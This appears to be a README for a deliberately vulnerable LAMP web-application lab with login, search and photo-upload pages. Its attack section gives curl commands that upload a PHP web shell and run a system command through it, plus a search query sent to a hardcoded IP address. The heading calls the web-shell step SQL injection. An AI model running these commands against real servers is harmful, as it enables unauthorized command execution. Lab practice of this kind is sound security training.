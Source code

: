 # Web Server

### LAMP

- Linux
- Apache Web Server
- MySQL Database Server
- PHP: backend programming language

### Database

#### Table&Column

- user
- user_group
- target_order

### Web Pages

- [login/register](https://www.tutorialspoint.com/php/php_mysql_login.htm)
- welcome
- search
- user profile(for photo uploading)



## SQL injections example

#### 1. Shell Injection

```shell
$ curl -F "image=@path/shell.php" http://IP_address/upload.php
$ curl -X GET  http://IP_address/images/shell.php\?cmd\=uname
```

#### 2. SQL Injection 

```shell
$ curl -X GET  http://52.37.128.197/search.php\?query\=a 
```



## Extensibility

1. Create your own database using your sql file
2. Modify the PHP source files, including functions and the level of security 



## References

[SQL injection](http://php.net/manual/en/security.database.sql-injection.php)